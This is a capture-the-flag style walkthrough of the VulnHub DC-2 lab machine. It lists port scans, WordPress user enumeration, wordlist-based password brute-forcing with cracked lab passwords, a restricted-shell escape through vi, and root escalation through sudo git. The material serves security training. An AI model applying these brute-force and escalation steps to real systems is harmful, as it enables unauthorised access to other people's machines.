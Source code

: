 # [Machine](https://www.vulnhub.com/entry/dc-2,311/)

- # ENUM
	- ### nmap(`nmap -A -p- -T5 DC-2`)
		- ```PORT     STATE SERVICE VERSION
			80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
			| http-title: DC-2 &#8211; Just another WordPress site
			|_Requested resource was http://dc-2/
			|_http-server-header: Apache/2.4.10 (Debian)
			|_http-generator: WordPress 4.7.10
			7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
			| ssh-hostkey: 
			|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
			|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
			|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
			|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
			Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel```
	- ### gobuster 
		- `/wp-login`
	- ### wpscan (wordpress scan) (`wpscan --url http://dc-2 --enumerate u`)
		- 3 users found:
			- admin
			- jerry
			- tom

- # EXPLOITATION
	- Run CeWL (custom wordlist generator): `cewl http://dc-2 -w passwords.txt`
	- Use WPscan again to bruteforce passwords: `wpscan --url http://dc-2 -U users.txt -P passwords.txt`
		- jerry's password: `adipiscing`
		- tom's password: `parturient`
	- Let's try if tom and jerry's passwords works also with SSH:
		- tom's password works!
			- The shell is restricted: 
			- `echo $PATH` -> `vi` -> `:set shell=/bin/bash` -> `:shell` -> `export SHELL=/bin/bash` -> `export PATH=/bin:/usr/bin`

- # PRIVILEGE ESCALATION
	- `su jerry` -> `sudo -l`
		- `git` is root!
			- Check GTFOBins (`git` -> `sudo` -> `(e)`)
				- You're ROOT!
